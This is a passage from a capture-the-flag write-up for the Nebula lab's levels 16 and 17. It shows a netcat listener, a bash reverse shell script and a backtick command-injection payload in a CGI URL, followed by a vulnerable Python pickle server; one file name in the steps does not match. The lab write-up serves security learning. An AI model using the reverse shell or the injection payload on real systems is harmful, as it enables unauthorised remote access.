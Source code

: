 {{< highlight console >}}
level16@nebula:~$ nc -l 1337
{{< / highlight >}}

To create a netcat listener on port *1337*

Next I construct the payload for the script

{{< highlight console >}}
level16@nebula:/home/flag16$ cat /tmp/RSHELL
#!/bin/bash
bash -i >& /dev/tcp/192.168.56.101/1337 0>&1
level16@nebula:/home/flag16$ chmod +x /tmp/SHELL
{{< / highlight >}}

Note the uppercase filename, this is important as our username gets uppercased. The command in the script is a standard bash reverse shell. Now we pass the wildcard script path to the Perl script with backticks so it gets evaluated.

{{< highlight console >}}
http://192.168.56.101:1616/index.cgi?username=%60/*/RSHELL%60&password=test2
{{< / highlight >}}

Back in the shell where we launched the netcat listener we do the following (the `whoami` is just to confirm I am the right user)

{{< highlight console >}}
level16@nebula:~$ nc -l 1337
bash: no job control in this shell
flag16@nebula:/home/flag16$ getflag
getflag
You have successfully executed getflag on a target account
flag16@nebula:/home/flag16$ whoami
whoami
flag16
{{< / highlight >}}

## Level 17 ##

> There is a python script listening on port 10007 that contains a vulnerability. 

{{< highlight python >}}
#!/usr/bin/python

import os
import pickle
import time
import socket
import signal

signal.signal(signal.SIGCHLD, signal.SIG_IGN)

def server(skt):
  line = skt.recv(1024)

  obj = pickle.loads(line)
